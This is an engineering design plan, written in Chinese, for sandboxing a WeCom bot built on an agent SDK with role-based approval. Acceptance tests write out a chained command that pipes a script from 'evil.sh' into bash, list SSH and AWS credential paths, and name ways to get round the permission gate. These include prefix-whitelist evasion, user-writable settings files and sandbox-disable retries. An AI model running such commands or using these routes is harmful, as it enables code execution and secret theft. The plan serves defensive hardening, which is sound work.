


# Bot Permission Sandbox Model - Plan

## Goal Capsule

- **Objective:** 将 WeCom bot 的权限模型从"白名单枚举"重构为"沙箱默认执行 + 风险分层审批"——普通用户零配置完成查询与文件处理类任务,出沙箱、联网、MCP 写操作才升级为 owner/admin 审批,owner/admin 权限收敛至各自目标边界。
- **Authority hierarchy:** Product Contract(含 session-settled 决策)> Planning Contract 的 KTD > 调研实证结果。实证项(V1/V2/V9)若失败,以 Risks 中的兜底方案为准,不回改 Product Contract。
- **Stop conditions:** V1(写侧嵌套)、V2(strictAllowlist 通道)、V9(Linux /proc 隔离)实证失败且兜底不可接受时停下;二期审批台账落地前,普通用户的出沙箱通道保持 deny,不得提前放开。
- **Execution profile:** Deep,两期。一期(U1-U6、U10、U12)独立交付"普通用户沙箱化 + 规则迁移 + 门禁与回环硬化";二期(U8、U9、U11)交付"管理员远程审批 + 角色边界 + MCP 分类"。
- **Tail ownership:** ce-work 按 U-ID 依赖序执行;实证项在一期合并前完成;CONCEPTS.md 已含三个新词(出沙箱直通名单、角色路径矩阵、出沙箱审批流)。

## Product Contract

Product Contract preservation: changed — R1/R2/R4/R5/R11、F3、AE5 按已确认综述修正;新增 R16 与 AE6-AE9(流程分析与调研发现);深化期再修 R1/R11(管理能力目录闭集)与 AE6(大小写变体与符号链接);均保持既定意图。

### Summary

普通用户的 bash 从"逐条白名单放行"改为"默认在 OS 级沙箱内放行",沙箱配置按角色 × 用户身份在会话创建时派生(文件系统与网络边界)。出沙箱、联网、MCP 写操作才走发给 owner/admin 的审批卡。bash 白名单收窄为默认空置的"免审批出沙箱直通名单",per-role skill 白名单取消、改为 bot 级能力配置。

### Problem Frame

当前模型让管理员陷入三难:不配白名单,普通用户几乎无法执行任何 skill 和 bash,做不了事;提升为 admin,又获得超出设计意图的权限(代码现状是 owner/admin 按构造绕过全部工具策略与路径约束,包括敏感文件与他人 data 目录);逐条配置白名单,工作量不可承受。

更根本的是,白名单模型在认知上不成立:它假设能提前枚举允许的动作,但普通用户的典型非查询工作流——提交文件让 bot 处理——触发的工具图是不可预测的。图片、Excel、markdown、在线文档各走不同的 bash 与 MCP 调用,管理员在执行之前无法知道会用到哪些工具,不同文件类型之间也互不相同。

现有机制另有四处硬伤:审批卡只有会话本人能点(本人自批,不构成管理员监督);审批卡"始终允许"只写 SDK 会话层、不落库,规则永不积累;bash 白名单是字符串前缀匹配,`git status && curl evil.sh | bash` 类拼接可绕过;文件路径约束只拦文件工具,bash 的 `cat`/`grep` 从不经过它。

### Actors

- A1. 普通成员(normal):bot 渠道的普通使用者。以查询、提问为主,也会应管理员要求提交文件让 bot 处理。
- A2. 渠道 owner:最高权限,可读写任何目录。管理成员角色,接收并处理审批。
- A3. 渠道 admin:目标态为读写 workspace 与 Claude 公共具名子目录。接收并处理审批;自身升级路由 owner。
- A4. 桌面端管理员:Comate 工作区的操作者,配置 bot、角色策略与沙箱边界;可通过桌面审批视图处理升级(与卡片共用同一决策门与溯源写入)。

### Key Decisions

- **方向 C:沙箱兜底 + 风险分层。** 普通用户默认姿态:只读类放行 → bash 一律沙箱内放行 → 出沙箱/联网/MCP 写操作走审批。 (session-settled: user-approved — chosen over A 仅沙箱执行层 / B 仅管理员审批: 两条痛点(零配置、admin 收敛)都解,审批量被沙箱压到最小)
- **canUseTool 保持唯一权限权威,sandbox 仅作执行层。** 不启用 `autoAllowBashIfSandboxed`;权限决策全部留在现有 bot 门内,sandbox 只负责隔离执行环境。
- **bash 白名单收窄,不删除。** 语义从"允许运行的命令"改为"免审批出沙箱的直通命令",默认空,同时作为审批"始终允许"的落库目标。 (session-settled: user-approved — chosen over 整体删除: 出沙箱直通与规则积累仍需要持久化载体)
- **per-role skill 白名单取消。** 改为 bot 级 skill 配置(该 bot 提供哪些 skill)加显式 deny 规则兜底;skill 的实际效果由工具层(沙箱、路径、网络)管控,`.claude/**` 拒写已封死普通用户种植恶意 skill 的路径。
- **路径约束单源派生。** 一份角色路径矩阵喂两个执行端:文件工具走 SDK Read/Edit 权限规则,bash 与子进程走 sandbox filesystem。派生归属新建的 `bot-access-policy` 模块;`bot-path-policy` 的 realpath 规范化作为门内校验层保留,其执行职责从 botId 分支退役、仅为 legacy 分支保留。
- **规则匹配统一用 SDK 结构规则引擎。** 复合命令逐段子命令求值,淘汰 home-grown 字符串前缀匹配。
- **两期交付。** 一期:沙箱执行层(含路径迁移、规则迁移、名单收窄);二期:管理员远程审批、角色边界落地、始终允许落库;分类器层二期/三期评估。
- **一期内普通用户的出沙箱请求一律 deny,除非命中直通名单。** 现有"本人自批"不构成对普通用户越界的有效监督,远程审批二期才落地;owner/admin 的出沙箱请求维持现有 ask。无沙箱平台上普通用户的未匹配 bash 视同出沙箱请求,同样一律 deny。
- **无沙箱平台降级为"结构规则 + 未匹配按角色路由"。** 普通用户 deny,owner/admin 保留本人 ask;不退回字符串前缀白名单。
- **不引入独立的轻量 agent 运行时做安全判定。** 分类器优先用 SDK 内置 auto-mode classifier,其次单次小模型调用。 (session-settled: user-approved — chosen over 嵌入 pi 类独立 agent: 判定是单次调用,不需要第二套运行时与进程边界)

### Requirements

**沙箱执行层(一期)**

- R1. bot 会话创建时按角色 × 用户身份派生该会话的 sandbox 配置:owner 不限制文件系统(transcript 库与 Comate 数据目录仍 deny);admin 可写 workspace 与 workspace 层的 Claude 公共具名子目录(`skills/`、`agents/`;`plugins/` 及任何含 `.mcp.json`/hooks 的目录除外);normal 仅可写自己的 `data/<userDir>`,不可读他人 `data/` 目录与敏感文件。
- R2. normal 用户的 bash 默认在沙箱内放行,无需任何命令白名单配置;沙箱内默认断网,域名白名单可配,默认条目含 WeCom API 端点(保障随包 wecom 技能开箱可用)。
- R3. 文件工具走 SDK Read/Edit 权限规则加门内 fail-closed 校验,bash 与子进程走 sandbox filesystem,两者从同一份角色路径策略派生;R1 先于 R2 落地,文件系统隔离是 bash 放行的前置。
- R4. 硬化默认值:显式设置 `failIfUnavailable`(不依赖通道默认)、`allowAppleEvents=false`、`enableWeakerNetworkIsolation=false`、browser 类目维持全角色 deny、凭据文件(`.credentials.json`、`~/.aws`、`~/.ssh` 等)对所有非 owner 角色 deny。
- R5. 无沙箱平台(Windows、缺 bubblewrap 的 Linux)降级为 SDK 结构规则加未匹配按角色路由:normal 一律 deny(一期),owner/admin 保留本人 ask;行为可预期且不静默裸奔。

**规则与名单(一期)**

- R6. bash 规则匹配迁移至 SDK 结构规则引擎,复合命令逐段子命令求值,`git status && curl …` 类拼接不得绕过。
- R7. bash 白名单语义收窄为"免审批出沙箱直通名单",默认空;UI 上的逐行命令 textarea 同步移除,替换为直通名单与 bot 级 skill 配置。
- R8. per-role skill 白名单取消,改为 bot 级 skill 配置;个别 skill 需禁用走显式 deny 规则。

**审批与角色边界(二期)**

- R9. 审批卡支持发送给 owner/admin 并按角色授权点击,替代仅会话本人可点的自批;normal 的出沙箱、联网、MCP 写请求进入该审批。
- R10. MCP 工具纳入类目与审批体系,写操作默认走审批,unknown 类目不再无条件 allow-all。
- R11. owner 维持不限文件系统;admin 落地目标边界(读写 workspace 与公共具名子目录,shell 默认沙箱化),修正 admin 当前 bypass 全部策略导致的实际权限大于设计意图。
- R12. 审批"始终允许"持久化为 bot 策略(直通名单或相应规则),跨会话生效。

**分类器层(二期/三期评估)**

- R13. 评估并接入轻量分类器(优先 SDK 内置 auto-mode classifier,其次单次小模型调用)对歧义命令做 fail-closed 判定并留痕;不引入独立 agent 运行时。**本计划不含执行单元**,作为跟进项登记于 Scope Boundaries。

**迁移与升级(一期)**

- R14. 存量 bot 的 `bashWhitelist`/`skillAllowlist` 数据**不迁移**:新模型上线即停用旧名单,以桌面横幅告知管理员并按需重建直通名单;新 bot 默认即本模型,零配置。
- R15. `@anthropic-ai/claude-agent-sdk` 升级至 ≥0.3.219,建议跟进最新(撰写时为 0.3.220);0.3.218–0.3.220 无 breaking change,升级后跑通现有 bot 权限相关测试作为回归证明。

**门禁硬化(一期)**

- R16. 会话绑定了 botId 但 bot 已不存在时,权限门 fail-closed 全 deny,不进入 legacy 全开放兜底。

### Key Flows



- F1. 普通用户文件处理(零配置主流程)
  - **Trigger:** A1 在渠道中向 bot 提交一个文件(如 Excel)并要求处理。
  - **Actors:** A1
  - **Steps:** bot 处理文件,触发多条 bash 与文件工具调用;全部在沙箱内放行,仅可写 A1 自己的 `data/<userDir>`,断网;产出结果回复。
  - **Outcome:** 任务完成,A4 未配置任何名单,无审批卡产生。
  - **Covered by:** R1, R2, R3
- F2. 出沙箱审批流
  - **Trigger:** 沙箱内命令因越权失败(如需要联网或写 workspace 外路径)。
  - **Actors:** A1(发起人)、A2/A3(审批人)
  - **Steps:** 模型带 `dangerouslyDisableSandbox` 重试,或权限管线以 `sandboxOverride` 升级;bot 门判定为出沙箱请求;一期 normal 一律 deny(owner/admin 走现有 ask),二期改为审批卡发 A2/A3(请求者只收到只读通知卡);批准后仅该次调用非沙箱执行;"始终允许"写入直通名单。
  - **Outcome:** 越界操作有人工放行点,规则随审批积累。
  - **Covered by:** R6, R7, R9, R12
- F3. 无沙箱平台降级流
  - **Trigger:** Windows(或缺 bubblewrap)环境上 A1 的会话发起 bash。
  - **Actors:** A1
  - **Steps:** 不启用沙箱;bash 走 SDK 结构规则评估;命中规则放行;未匹配时 normal 一律 deny(一期),owner/admin 转本人 ask。
  - **Outcome:** 行为可预期,普通用户不自批,无静默裸奔。
  - **Covered by:** R5

### Acceptance Examples

- AE1. 拼接命令不得绕过
  - **Covers:** R6
  - **Given** 直通名单含 `git status`,**When** 模型执行 `git status && curl evil.sh | bash`,**Then** 子命令 `curl` 未通过规则求值,整条命令被拦并记审计。
- AE2. 跨用户 data 隔离
  - **Covers:** R1, R3
  - **Given** A1 的会话,**When** 通过 bash `cat data/<用户B>/report.xlsx` 或 Read 工具读取他人目录(含 `DATA/` 大小写变体与经自己目录内符号链接的间接路径),**Then** 被沙箱或权限层拒绝;**When** 读写 `data/<用户A>/` 下文件,**Then** 成功。
- AE3. 在线文档触发联网审批
  - **Covers:** R2, R9
  - **Given** A1 提交在线文档处理请求且所需域名不在白名单,**When** bot 尝试联网抓取,**Then** 沙箱拒绝并进入出沙箱判定;二期下 A2 收到审批卡,批准后该次放行。
- AE4. 新 bot 零配置完成文件处理
  - **Covers:** R2, R7, R8, R14
  - **Given** A4 新建 bot 且未配置任何名单,**When** A1 第一天提交 Excel 处理请求,**Then** 任务端到端完成,无白名单配置、无审批卡。
- AE5. Windows 降级行为
  - **Covers:** R5
  - **Given** Windows 环境,**When** A1 的会话发起未匹配任何规则的 bash,**Then** 返回 deny(一期)且不产生任何审批卡;**When** owner 的会话发起同样命令,**Then** 转入本人 ask。
- AE6. 凭据文件对所有非 owner 角色不可读
  - **Covers:** R1, R4
  - **Given** A1 或 A3 的会话,**When** 通过 bash `cat` 或 Read 工具读取 `.credentials.json`、`~/.ssh/id_rsa`、`~/.aws/credentials`(含 `~/.SSH/ID_RSA` 大小写变体),**Then** 全部被拒并记审计。
- AE7. bot 已删除的会话 fail-closed
  - **Covers:** R16
  - **Given** 一个 `botId` 仍绑定但 bot 行已删除的会话,**When** 发起任何工具调用,**Then** 全部 deny,不进入 legacy 全开放兜底。
- AE8. 始终允许跨会话生效
  - **Covers:** R12
  - **Given** 二期中 A2 对某次出沙箱命令点"始终允许",**When** A1 在新会话中再次触发同一命令,**Then** 命中直通名单直接放行;**When** 触发的是同工具不同参数的相似命令,**Then** 不命中(精确匹配语义),且审计可查到该规则的批准人与来源。
- AE9. 审批超时自动失败关闭
  - **Covers:** R9
  - **Given** 二期中一张发给 A2/A3 的升级审批卡超过 TTL 未被点击,**Then** 待决项按 deny 收场、请求者收到过期通知、审计记录 expired。

### Success Criteria

- 普通用户端到端完成一次文件处理任务,管理员所需配置条目数为零。
- 普通用户会话内任何工具(含 bash 拼接与间接路径)无法读写他人 `data/` 目录与敏感文件(沙箱可用平台;降级平台经预提交分支保持等价约束),有自动化测试证明。
- 审批卡仅来自出沙箱、联网、MCP 写三类事件;日常查询与沙箱内操作零卡片。
- admin 的文件系统可达范围等于 workspace 加具名子目录(`skills/`、`agents/`,workspace 层),有自动化测试证明 bypass 偏差已修正。
- 无沙箱平台上普通用户 bash 行为可预期:规则命中放行、未命中 deny,无静默放行。

### Scope Boundaries

**Deferred for later**

- R13 轻量分类器评估:新规则集稳定后以 shadow 模式评估 SDK 内置 classifier(KTD-26),不在本计划执行范围。
- 双模型真相源收敛(回复门控仍读旧 `wecomBotIsolation.adminUserIds`)与老工作区 grandfathered allow-all 迁移。
- 拒绝反馈文案优化(面向渠道用户的文案)与审计视图 UI。
- Feishu 升级卡片流对齐:一期执行层(沙箱 + 结构规则)部署即对 Feishu 会话同样生效,Feishu 普通用户的升级一律 deny 直到卡片流对齐。
- 面向普通用户的出沙箱自我 ask(本人确认)通道——一期保持 deny,二期由远程审批取代。
- sidecar 监听绑定收敛到 loopback(既有的 LAN 暴露,独立修复)。

**Outside this product's identity**

- 不引入独立的轻量 agent 运行时做安全判定。
- 不做内核级运行时监控(eBPF、Falco 类)——执行隔离以 SDK sandbox 为上限;MCP server 与 hooks 作为独立进程不受沙箱约束,多租户敌意内容的更强隔离(容器/VM)不在本计划。

### Dependencies / Assumptions

- 仓库当前钉在 `@anthropic-ai/claude-agent-sdk@0.3.217`,升级工作见 R15。0.3.217 已核实能力:`sandbox` settings(filesystem/network)、结构权限规则(`Bash(git *)`、复合命令 `subcommandResults`)、`decision_reason_type`(`sandboxOverride`/`safetyCheck`/`classifier`)、`dangerouslyDisableSandbox` 与 `allowUnsandboxedCommands`。网络严格白名单姿态依赖 0.3.219 引入的 `sandbox.network.strictAllowlist`。
- 平台假设:macOS seatbelt 可用;Linux 依赖 bubblewrap(可用 `bwrapPath` 指定);Windows 假定沙箱不可用,走 R5 降级。
- 假设 sandbox filesystem 配置支持按会话派生的路径列表;读侧"更具体路径优先"为官方语义,`data/` 隔离以 deny `data/*` 加 allow 自身表达,无枚举竞争。
- 假设现有审批模板卡通道可承载发给 owner/admin 的越权审批;供应商 `updateTemplateCard` 仅能以入站事件响应形式调用(5 秒窗口),非点击收件人的卡片无法由服务端主动终结——设计按"主动通知卡 + 迟到点击终态"落地。
- 假设 `userDirName` 经字符集校验后方可用作路径与规则字符串;身份未解析的用户不获得个人目录。

### Outstanding Questions

全部已在规划期解答(解答落点见 Planning Contract 与 Risks):

- `autoAllowBashIfSandboxed` 与 canUseTool 的求值顺序 — 已解答:官方顺序 hooks → deny → ask → mode → allow → canUseTool;关闭 autoAllow 后回调为权威,但内置只读命令不经回调,以 PreToolUse hook 补审计并在降级平台显式 deny(KTD-1、Risks)。
- sandbox filesystem 语法细节 — 已解答:字面路径前缀解析(非 glob);读锁定用 `denyRead: ["~/"]` + `allowRead: […]`;只发绝对路径(KTD-2)。
- `failIfUnavailable` 通道默认不一致 — 已解答:Options.sandbox 通道默认 true,但探针状态机接管该值(KTD-24)。
- Windows 沙箱可用性 — 已解答:官方不支持,走 R5 降级;内置只读命令残留见 Risks。
- Read/Edit 规则表达力 — 已解答:gitignore 语法(大小写敏感,门内 fail-closed + realpath 校验补齐);Read deny 连带禁 Edit;规则自动并入沙箱边界(KTD-1、KTD-2)。
- 群聊审批卡形态 — 已解答:按角色枚举收件人发 `sendTemplateCard`,沿用 `/workspace` action 分支模式做角色校验(U11)。
- 写侧 `allowWrite` 嵌套重开、`strictAllowlist` 按会话通道生效性、Linux `/proc` 隔离 — 未文档化,转实证项 V1/V2/V9(见 Verification Contract 与 Risks)。

### Sources / Research

- 现状强制执行点:`src/server/services/chat-service.ts`(bot 门 `canUseTool`,约 1999-2179 行;options 构建 `buildSdkOptions` 约 1759 行,bot 分支 1925 起)。
- 角色与策略模型:`src/server/models/bot.ts`、`src/server/services/bot-policy.ts`、`src/server/services/tool-permission-policy.ts`、`src/server/services/bot-path-policy.ts`。
- 审批卡自批校验与回复门:`src/server/services/wecom-bot-service.ts`;审批决议:`src/server/services/session-runtime.ts`;卡片构建:`src/server/services/wecom-template-card.ts`(`buildToolApprovalCard` 166 行、`buildTerminalCard` 369 行)。
- SDK 能力面:`node_modules/@anthropic-ai/claude-agent-sdk/sdk.d.ts`(0.3.217);官方文档 `https://code.claude.com/docs/en/sandboxing`、`/permissions`、`/agent-sdk/permissions`、`/settings#sandbox-settings`。
- 团队学习:`docs/solutions/integration-issues/wecom-update-template-card-5s-window.md`(卡片 5s 窗口与卡类型终态)、`docs/solutions/conventions/use-isolated-test-database-for-comate.md`(隔离测试库)、`docs/solutions/integration-issues/claude-sdk-transcript-path-encoding-windows-analytics.md`(SDK 升级静默漂移教训)、SSE replay/heartbeat 系列(`docs/solutions/integration-issues/sse-*`)。
- 既有谱系:`docs/plans/2026-06-14-001-feat-wecom-bot-tool-permissions-plan.md`、`docs/plans/2026-06-24-004-feat-wecom-bot-ask-permission-plan.md`、`docs/plans/2026-07-27-001-feat-bot-owner-autoassign-and-transfer-plan.md`。
- 外部参考:CARE(`https://arxiv.org/html/2607.21642v1`),静态优先加 LLM 兜底的命令验证格局;GitHub Actions environment protection rules(指定审批人、禁止自批的先例)。

## Planning Contract

### Key Technical Decisions

**门禁与求值**

- KTD-1. **canUseTool 主决策 + PreToolUse hook 仅审计,门对非 owner fail-closed。** 官方求值顺序(hooks → deny → ask → mode → allow → canUseTool)下,内置只读命令与 allow 规则命中不经回调;hook 看到全部调用但不拦截,一期内先落 `diagLog`/既有事件(U6 再丰富为审计事件)。派生层为非 owner 角色 emit allow 规则覆盖允许面,门对其余一律 deny——文件工具不再有 allow 落穿。降级平台上内置只读命令可能绕开门,以显式 deny 规则补,残留记 Risks。 (实例化 brainstorm KD「canUseTool 保持唯一权限权威」)
- KTD-2. **派生通道:权限规则为主,sandbox.filesystem 补余。** Read/Edit 规则自动并入沙箱边界(deny → denyRead/denyWrite,Edit allow → allowWrite),`sandbox.filesystem.*` 只发字面绝对路径、只表达规则表达不了的(如 `denyRead: ["~/"]` 的 home 读锁定);`settings.permissions` 以内联对象传入(与 `Options.sandbox` 同传 settings 文件路径会抛错)。
- KTD-3. **bot 会话钉 `settingSources: []`(SDK 隔离模式)。** 任何用户可写设置源的 allow 规则都先于 canUseTool 求值:工作区 `.claude/settings.json` 是后门,`~/.claude/settings.json`(用户层)同样会短路审批并 widen 沙箱写边界——全部切断。代价:workspace `CLAUDE.md` 不再加载(其本身也是注入面,接受);project 级插件启用亦被切断——bot 启用的插件集(含随包 wecom)经 `Options.plugins` 显式注入重接,不依赖任何设置文件;root 所有权的 managed 层仍加载(可接受)。 (session-settled: user-approved — chosen over 维持加载 project/local: 权限门必须先于一切用户可写配置;深化扩展: 进一步钉为 [] — 用户层 settings 具有相同短路语义)
- KTD-4. **botId 悬空会话 fail-closed。** bot 行缺失时永不进入 legacy 全开放兜底(R16),与该兜底的整体退役(Deferred)分开处理,落在独立单元 U10。

**沙箱派生**

- KTD-5. **角色路径矩阵单源派生三件套,归属新模块 `bot-access-policy`。** 同一派生函数输出 sandbox 配置、结构权限规则、能力前言文本,挂进 `buildSdkOptions` 的 bot 分支(复用已解析的 role 与 `userDirName`,不重复解析),在 draft/resume 分支之前设置;沙箱配置随会话固定,角色变更走既有 runtime rebuild。`bot-path-policy` 的 realpath 规范化保留为门内校验层;`validateToolInput` 从 botId 分支移除(legacy 分支保留)。 (实例化 brainstorm KD「路径约束单源派生」)
- KTD-6. **读锁定 = `denyRead: ["~/"]` + `allowRead` 白名单;data 隔离 = deny `data/*` + allow 自身。** 这是 home 读锁定而非整机:多用户宿主的 `/home`、`/Users` 他人目录由派生层显式 deny;读侧"更具体路径优先"是官方语义,无新用户枚举竞争;`knownUserDirNames` 枚举不移植到新路径。
- KTD-7. **写边界用 `allowWrite` 嵌套,cwd=用户目录作兜底。** 写侧嵌套重开未文档化(V1 实证);实证失败则 normal 会话 cwd 退为 `data/<userDir>`。兜底代价补全:transcript 按 cwd 编码存放,cwd 变更使存量会话 resume 静默分叉(与团队学习中的 SDK 静默漂移同一故障类);兜底启用须过验收闸——文件处理与技能发现工作流成功、跨用户与敏感路径仍拒、resume 连续性显式选择(继续/分叉/新建)并告知桌面端。
- KTD-8. **密钥遮蔽与运行时面。** `credentials.envVars` 为派生计算集(⊇ `settingsEnv` 键 ∪ provider `customEnvVars` 键 ∪ 终态子进程 env 的值金丝雀扫描,减去显式良性 allowlist),`credentials.files` deny `~/.aws`、`~/.ssh` 等;沙箱命令的 `TMPDIR` 由 SDK 内建重定向到会话临时目录(无需也不经 `options.env` 处理),语言缓存变量(pip/npm 等)可指向 `data/<userDir>/.runtime/`(非沙箱 CLI 不写缓存);`data/<userDir>/.runtime/` 为 per-session 可写运行时目录;沙箱内 `allowRead` 的 home 相对路径(插件缓存、CLI 目录)为闭集评审清单;V7 记录沙箱实际临时目录行为。
- KTD-9. **网络默认断 + bot 级域名白名单 + `strictAllowlist`。** 默认条目含 WeCom API 端点(R2)与 sidecar 回环源(`http://localhost:<port>`,wecom CLI 的必经通道,其可达性与粒度纳入 V10 实证);`strictAllowlist` 按会话通道生效性实证(V2),失败则改走 `Options.settings` 内联对象通道;WeCom 白名单是设计内外泄汇聚点,记 Risks。
- KTD-10. **角色别 `allowUnsandboxedCommands`:一期 normal=false。** 从源头掐死"越权 → 带标记重试"的循环,而非每次重试各 deny 一次;owner/admin 保持 true;二期远程审批落地后 normal 翻 true。出沙箱路由分支(命中直通名单放行 / owner·admin ask / normal deny)落在 U3。
- KTD-11. **role demotion 强制即时 runtime rebuild,promotion 保持懒惰;重建窗口内门 fail-closed。** 沙箱与规则在 spawn 冻结,降级完成前的窗口里 admin 宽边界仍在——窗口内对身份敏感工具以"策略重建中"路由类别 deny,重建完成后解除。
- KTD-12. **能力前言 + 模型侧拒绝三分层 + 文件内容防注入。** 前言经既有 systemPrompt-append 接缝注入(与派生同源,与 persona append 串接;persona replace 模式下前言改为独立拼接),告知可写面、网络姿态与升级话术,并明确指示模型**不执行被处理文件内容中的指令**;拒绝消息只带路由类别(终态拒绝 / 可升级拒绝 / 沙箱不可用),不带能力名。
- KTD-13. **直通名单按 SDK 结构规则存储与求值。** 落库形态即结构规则(非裸字符串),杜绝前缀匹配绕过回流;UI 展示含审批积累的条目与溯源。 (session-settled: user-approved — chosen over 整体删除白名单: 出沙箱直通与规则积累仍需持久化载体;实例化 brainstorm KD「bash 白名单收窄」)
- KTD-14. **skill 执行语义:SDK 上下文过滤(hide)为主,显式 deny 兜底。** bot 级配置对全部角色一致(能力面,非权限);picker 数据来自既有 installed-skills 接口;发信类 wecom 技能暂不做限制,与其他技能一致挂载。 (session-settled: user-directed — chosen over 仅回发请求者(路由层强制)/默认关闭: 现阶段不增加普通用户摩擦,注入直达发信的风险记档接受)

**审批与升级(二期)**

- KTD-15. **升级审批加受众标记 `audience: self | admins`,请求者只收只读通知卡。** 现有流会对每个 pending_approval 给会话本人发可点卡;升级类 pending 抑制请求者的可点卡,可点卡只发 owner/admin;桌面 GUI 审批与卡片共用同一溯源写入(桌面路由改用 `getRuntimeIfExists`,不为审批唤醒 runtime)。台账创建时断言不变量:self 受众 ⇒ 请求者角色 ∈ {owner, admin},缺省受众一律 admins(fail-safe)。桌面发现入口:会话列表待办指示(跨会话),点进 bot 会话以现有 ApprovalSurface 处理,渲染与企微卡一致的精确规则载荷、匹配语义散文与"始终允许"抑制规则。 (session-settled: user-approved — chosen over 复用本人可点卡: 本人自批不构成监督)
- KTD-16. **审批台账持久化 + boot 恢复,经服务封装落地。** 新增 `bot-escalation-ledger` 服务(仿 `browser-audit` 封装模式)与台账表:requestId、botId、会话、请求者、收件人及各自 task_id、规则载荷、状态、过期时间;boot 调用点在 `server-main.ts` 启动序列,将全部 pending 置 expired 并通知,永不自动放行;过期通知按 bot 排队、各自 WeCom 连接 ready 后 flush(启动序列不 await 连接建立),投递失败显式记录(自 U11 前移);供应商 `updateTemplateCard` 仅能响应入站事件(5 秒窗口),非点击收件人的卡片以主动通知卡 + 迟到点击走既有"已过期"终态路径处理。
- KTD-17. **TTL 默认 30–60 分钟,过期 fail-closed,复用既有定时器,期限与 SDK 对账。** `pendingApprovals` 已有 `expiresAt` 与 `startTimeoutTimer`/`timeoutDeny`——只增 audience 与台账链接,不建第二套定时;TTL 是受制参数:SDK 控制请求自带 `input.timeout`,U8 动工前先实证现网 `input.timeout` 分布,台账期限钉在 SDK 期限之内,临近时主动向审批人重发卡;过期按 deny 收场 + 通知请求者 + 审计;Promise 永不悬挂、永不返回 null。 (session-settled: user-approved — chosen over 无超时悬挂: 远程审批人不可预期,资源与语义都要求有界)
- KTD-18. **始终允许:过滤建议类型、精确匹配、语义可见、全量溯源。** 应用的 `updatedPermissions` 仅放行 `{type:'addRules', behavior:'allow', destination:'session'}`,其余类型(setMode/addDirectories/replaceRules)丢弃并 suppress 按钮、落审计;落库规则为**精确匹配**(字面子命令,不做参数通配),除非桌面管理员在 GUI 显式编辑;卡片以散文说明匹配语义("仅匹配此命令" vs "匹配以此开头的任意命令"),展示内容与被持久化规则一一对应;destination 重写杜绝写穿 `.claude/settings.local.json`。
- KTD-19. **升级防刷按泛化形态去重,按用户与 bot 双维限流。** 去重签名按将落库的泛化规则形态计算(参数变体归并);每用户每 bot 每小时上限 + 每 bot 全局在途 pending 上限(超出 fail-closed 并通知);重复升级更新既有卡片而非新发;每回合出沙箱 deny 达上限后门内短路并给模型停止重试的明确指令。
- KTD-20. **MCP 分类:注解优先,per-server 覆盖,unknown 一律 ask。** 读 `readOnlyHint`/`destructiveHint`,服务器配置可覆盖;unknown 的 ask 受众按 KTD-15 路由(normal → admins);MCP 进程不受沙箱约束,门控必须在 canUseTool 层;管理员挂载 MCP 服务器本身即信任决策——仅挂载必要服务器,凭据最小共享。
